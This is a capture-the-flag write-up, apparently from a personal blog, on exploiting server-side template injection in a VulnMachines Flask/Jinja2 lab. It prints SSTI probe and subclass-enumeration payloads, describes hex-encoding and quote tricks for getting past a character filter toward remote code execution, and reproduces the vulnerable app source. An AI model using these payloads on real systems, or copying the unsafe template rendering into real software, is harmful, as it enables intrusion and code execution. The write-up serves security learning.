 ### Server Side Template Injection

<h3> VulnMachines SSTI </h3>
  
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5ba69ce8-7c1d-4b12-acd4-ac938cc0a05a)

After going over to the web page it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3f12114e-5007-40e8-872c-0852bc94afe7)

Trying to input something shows it get reflected back
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6b197aee-aeec-4a59-ae29-fdf22ae038e5)

Using basic SSTI payload works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0c3d4f0d-3339-4052-a5ff-80a80299048d)

Let's use this SSTI check to know what template engine it uses
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/72ceb69f-0749-42af-a825-e578cbcceee7)

First i'll try `${7*7}` but it doesn't get evaluated
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fca6e016-516e-4d4e-99eb-f2f51a177d5a)

Next we move unto the down part of what we are using to get the template engine

Now i'll try this `{{7*7}}`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/40a994fe-f655-4155-b869-57472c9ee536)

It gets evaluated

So we move unto `{{7*'7'}}`

But doing that gives us an error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/727b0876-0742-4285-b9aa-90f9ffa334b7)

```
Your nickname contains restricted characters!
```

To bypass this we can try using double quote instead of single quote

Doing that works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1cd3936c-6e86-445b-ad6a-3162ba396fbd)

From here we can say the template engine is either *Jinja2 or Twig*

But from the web server header we can then conclude it's *Jinja2* templating engine that is being used since the webserver is built on python
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f1e4fd74-e41d-4cc8-8bff-b980e4cf0796)

The aim of this challenge is to get the flag 

Checking the {{config}} env works and shows the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4ad45aa4-090f-4af8-9756-dda57100a7d7)

```
Flag: 56756c6e6d616368696e6573202d20506c61636520666f722050656e746573657273
```

It is in it's hex form

I used python to decode it

```
#!/usr/bin/python3
# Author: Hack.You

encoded = '56756c6e6d616368696e6573202d20506c61636520666f722050656e746573657273'
decoded = bytes.fromhex(encoded)
flag = b'vnm{'+decoded+b'}'
print(f'Flag: {flag}')
```

Running it gives us the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e81b6b1e-30d0-4f84-a5f3-82486aa33f81)

But how about we try get RCE

First I need to know the classes that are present and preferably the subprocess class

Reason is because it's a python module that allows us to execute commands
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/dbe5deff-2bf0-4f45-822f-f50bfc2397fe)

So here's the payload:

```
{{""|attr("__class__")|attr("__base__")|attr("__subclasses__")()}}
```

But giving that to the web server gives an error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/53ac6936-426d-43c6-81c8-6a9177046c78)

```
Your nickname contains restricted characters!
```

It seems like it filters another character 

To make it easier i'll intercept one of the post request and save it in a file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6410d653-91b7-4369-bd27-b95cea534ad1)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/bc21fc54-736c-4da6-aa63-c70a73ff25ad)

Now i'll use ffuf to fuzz for allowed special characters
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/51b0b6af-5d24-475b-9c87-54d7361592ba)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1260f974-8e17-4d44-bcee-3b0d2a161e9c)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2e5bc423-bfad-4f9b-ac47-033ca5b6e72c)

Sorry about the way my ffuf is that's the new update 😥

But we can see the allowed characters :)

One way we can improvise in bypassing the filter is by converting the blacklisted character to hex
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2155b706-5ad1-4fa6-a80d-5ae9297da27a)

Using the updated payload works 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5e6054cd-da25-4b31-a12c-d1b2a2afd8fe)

Now we can check if the subprocess class is among it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b19d4d65-bc52-4985-a927-6eda3d9984f0)

Cool it's among the classes

We need to get the position of the subprocess class number

Burp intruder can help with that :) i did try scripting this but unfortunately  i can't seem to make it send as raw data without it being converted to it's string form

I'll just fuzz using Burp Intruder
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/04ec0628-1e92-44aa-99bd-a3c99e4f08bb)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/dc6c8896-3442-4ce3-8d02-75a0f544a6c4)

After running it I got this 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/52b7ad19-eb4f-419e-ba69-ed57e89e5e1b)

We can see the request with a content length of `258`

Checking it shows that it indeed works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/083c3b19-7840-4ecb-a003-1496c2233df9)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/11c50698-5687-49b5-bb7f-b251fed673c5)

And the position for the subprocess class is `286`

We can then try reading the app.py file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3062bfcd-5b67-4dee-b0ae-ba63e7ef6667)

Here's the result gotten from reading app.py (P.S: I exfiltrated it 🙂)

```python
import random
from flask import Flask, render_template_string, render_template, request

app = Flask(__name__)
app.config['SECRET_KEY'] = 'Follow us on Twitter rapidsafeguard'

#Tiaonmmn don't remember to remove this part on deploy so nobody will solve that hehe
'''
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
'''

app.config['flag'] = '56756c6e6d616368696e6573202d20506c61636520666f722050656e746573657273'
#app.config['flag']="Success fully pass SSTI"
nicknames = ['˜”*°★☆★_%s_★☆★°°*', '%s ~♡ⓛⓞⓥⓔ♡~', '%s Вêчңø в øĤлâйĤé', '♪ ♪ ♪ %s ♪ ♪ ♪ ', '[♥♥♥%s♥♥♥]', '%s, kOтO®Aя )(оТеЛ@ ©4@$tьЯ', '♔%s♔', '[♂+♂=♥]%s[♂+♂=♥]']
#nicknames=['psycho','rapidsafeguard']
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        try:
            p = request.values.get('nickname')
            id = random.randint(0, len(nicknames) - 1)
            if p != None:
                if '.' in p or '_' in p or '\'' in p:
                    return 'Your nickname contains restricted characters!'
                return render_template_string(nicknames[id] % p)

        except Exception as e:
            print(e)
            return 'Exception'

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

We can also see the flag there 😅

And we're done 👻
